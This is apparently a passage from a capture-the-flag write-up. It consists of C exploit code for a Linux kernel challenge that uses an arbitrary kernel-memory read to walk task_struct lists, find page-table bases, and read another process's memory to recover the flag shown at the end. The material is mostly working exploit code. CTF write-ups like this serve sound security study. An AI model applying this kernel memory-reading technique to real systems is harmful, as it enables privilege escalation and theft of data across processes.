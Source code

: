```c

    if (prctl(PR_SET_NAME, "brwook", 0, 0, 0) != 0) fatal("prctl");
    void *current = kbase + 0x1a0c900; // 'current' of swapper
    while (1) {
        aar(buf, current, 0x720);
        printf("[.] Traversing task: 0x%016lx (%s)\n", current, buf + 0x718);

        // check that task_struct->comm is same with "init"
        if (strcmp(buf + 0x718, "init") == 0)
            break;
        
        // (task_struct->children->next - 0x550) == next task_struct of child
        current = *(size_t*)(buf + 0x540) - 0x550;
    }

    void *cocay = *(size_t *)(buf + 0x540) - 0x550;    
    current = *(size_t*)(buf + 0x548) - 0x550;
    printf("[*] Found cocay task at 0x%016lx\n", cocay);
    
    while (1) {
        aar(buf, current, 0x720);
        printf("[.] Traversing task: 0x%016lx (%s)\n", current, buf + 0x718);
        if (strcmp(buf + 0x718, "brwook") == 0)
            break;
        
        current = *(size_t*)(buf + 0x540) - 0x550;
    }

    printf("[*] Found current task at 0x%016lx\n", current);

    aar(&mm, cocay + 0x4a8, 8);
    aar(&pgd, mm + 0x80, 8);
    phy_cocay = pgd - page_offset_base;
    printf("[*] Pagetable Virtual address of cocay (0x%016lx)\n", pgd);
    printf("[*] Pagetable Physical address of cocay (0x%016lx)\n", phy_cocay);

    aar(&mm, current + 0x4a8, 8);
    aar(&pgd, mm + 0x80, 8);
    phy_current = pgd - page_offset_base;
    printf("[*] Pagetable Virtual address of current (0x%016lx)\n", pgd);
    printf("[*] Pagetable Physical address of current (0x%016lx)\n\n", phy_current);

    void *flag_addr = 0x498008;
    for (int i=0; i<10; ++i) {
        aar_cr3(&flag[i], flag_addr + i * 8, phy_current, phy_cocay);
    }
    printf("[+] FLAG : %s\n", (char *)flag);
    return 0;
}
```

`cr3{N0W_y0U_kN0w_Wh47_cr3_r39i573r5_D0}`